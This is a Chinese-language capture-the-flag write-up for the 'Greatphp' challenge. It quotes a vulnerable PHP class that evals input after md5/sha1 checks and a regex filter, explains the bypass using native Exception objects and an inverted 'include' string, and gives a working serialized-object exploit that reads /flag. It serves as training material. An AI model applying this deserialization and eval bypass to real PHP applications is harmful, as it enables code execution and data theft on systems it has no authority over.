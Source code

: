 ## [极客大挑战 2020]Greatphp
关键词：php内置类的利用
参考：https://github.com/WAY29/geek-2020-challenges/blob/main/roamphp7-greatphp/wp/wp.md
https://cn-sec.com/archives/286121.html（PHP原生类利用小结，很不错）

    class SYCLOVER {
        public $syc;
        public $lover;
    
        public function __wakeup(){
            if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
               if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
                   eval($this->syc);
               } else {
                   die("Try Hard !!");
               }
               
            }
        }
    }

正常来看的话，又要过if又要过waf还要命令执行，似乎是一件不可能的事情。
所以这里要用到内置类error。
考点是md5/sha1可以对一个类进行hash,会触发一个类的__toString方法,这里由于没有可以利用的类,所以需要寻找原生类,比如Error,Exception等,然后由于Error的toString是无法完全控制的,会有其他输出,所以使用?><?=的方式结束php从而完整控制整块代码,(这里有个坑就是Error必须不等,但toString生成的结果必须相等,由于toString生成的结果包含当前代码所在的行,所以新生成的2个实例必须在同一行),因为禁用了小括号无法调用函数,尝试直接include "/flag"即可.

exp：
    <?php
    class SYCLOVER
    {
        public $syc;
        public $lover;
    
        public function __wakeup()
        {
            if (($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc) === sha1($this->lover))) {
                if (!preg_match("/\<\?php|\(|\)|\"|\'/", $this->var1, $match)) {
                    eval($this->syc);
                } else {
                    die("Try Hard !!");
                }

            }
        }
    }

    $str = "?>"."<?=include~".urldecode("%D0%99%93%9E%98")."?>";
    $a = new Exception($str, 1);$b = new Exception($str, 2);
    $c = new SYCLOVER();
    $c->syc = $a;
    $c->lover = $b;
    echo(urlencode(serialize($c)));
    ?>
